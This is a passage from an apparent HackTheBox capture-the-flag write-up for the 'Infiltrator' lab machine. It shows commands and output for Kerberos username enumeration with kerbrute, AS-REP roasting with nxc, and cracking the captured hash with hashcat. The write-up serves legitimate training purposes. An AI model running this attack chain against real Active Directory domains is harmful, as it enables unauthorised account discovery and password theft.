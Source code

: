 We use `username-anarchy` to generate a wordlist of possible usernames from the collected employee names:

```bash
username-anarchy -i names.txt > users.txt
```

We use `kerbrute` to enumerate usernames and identify seven valid users:

```
kerbrute userenum -d INFILTRATOR.HTB --dc 10.10.11.31 users.txt

   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/31/25 - Ronnie Flathers @ropnop

2025/03/31 01:18:37 >  Using KDC(s):
2025/03/31 01:18:37 >   10.10.11.31:88

2025/03/31 01:18:37 >  [+] VALID USERNAME:       d.anderson@INFILTRATOR.HTB
2025/03/31 01:18:37 >  [+] VALID USERNAME:       o.martinez@INFILTRATOR.HTB
2025/03/31 01:18:37 >  [+] VALID USERNAME:       k.turner@INFILTRATOR.HTB
2025/03/31 01:18:38 >  [+] VALID USERNAME:       a.walker@INFILTRATOR.HTB
2025/03/31 01:18:38 >  [+] VALID USERNAME:       m.harris@INFILTRATOR.HTB
2025/03/31 01:18:38 >  [+] VALID USERNAME:       e.rodriguez@INFILTRATOR.HTB
2025/03/31 01:18:38 >  [+] VALID USERNAME:       l.clark@INFILTRATOR.HTB
2025/03/31 01:18:38 >  Done! Tested 105 usernames (7 valid) in 0.954 seconds
```

## Domain Foothold

### AS-REP Roasting Attack

We add the discovered names to a new wordlist and perform an AS-REP roasting attack:

```bash
cat users1 | awk '{print $7}' | cut -d '@' -f1 > users.txt
```

```bash
nxc ldap 10.10.11.31 -u users.txt -p '' --asreproast output.txt
```

![image.png](image%202.png)

### Hash Cracking

```bash
hashcat -m 18200 l.clark_hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%203.png)

